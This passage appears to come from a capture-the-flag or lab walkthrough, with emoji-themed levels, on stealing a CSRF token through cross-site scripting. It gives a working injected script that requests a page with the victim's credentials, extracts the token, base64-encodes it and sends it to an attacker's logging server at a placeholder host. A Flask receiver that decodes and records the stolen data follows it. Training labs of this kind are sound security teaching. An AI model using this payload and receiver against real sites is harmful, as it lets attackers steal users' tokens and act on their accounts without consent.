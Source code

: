 Here, you need to find the variable name for the 🐱 token 🐱 you want to exfiltrate!

```
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://🌙/index.php', false);
xhr.withCredentials = true;
xhr.send();

var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var TokenB64 = doc.getElementById('🐱 token 🐱').value;
var Tokenstealer = btoa(TokenB64);  // Base64 encode the token

// Send the CSRF token to your logging server
var logXhr = new XMLHttpRequest();
logXhr.open('GET', 'http://⭐:8000/log?data=' + Tokenstealer, true);
logXhr.send();

</script>


```

# 🎃Level 4 - Victim, Send A Get Request! 🎃

## ⭐ Attacker

`python server.py`

```
from flask import Flask, request
import datetime
import base64

app = Flask(__name__)

# Define the log route
@app.route('/log', methods=['GET'])
def log_request():
    # Get the data parameter from the request
    encoded_data = request.args.get('data', '')

    # Decode the base64-encoded data
    try:
        decoded_data = base64.b64decode(encoded_data).decode('utf-8')
    except Exception as e:
        decoded_data = f"Error decoding data: {e}"

    # Log the decoded data with a timestamp
    with open("requests.log", "a") as log_file:
        log_file.write(f"{datetime.datetime.now()}: {decoded_data}\n")

    return "Data logged and decoded successfully.", 200

# Run the app
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

```
